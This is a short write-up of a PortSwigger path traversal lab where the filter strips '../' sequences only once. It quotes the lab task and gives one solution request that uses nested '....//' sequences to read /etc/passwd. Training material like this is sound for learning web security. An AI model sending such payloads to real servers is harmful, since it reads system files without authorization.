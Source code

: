 # 3 - Traversal sequences stripped non-recursively

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application strips [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences from the user-supplied filename before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

```text
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
```

 


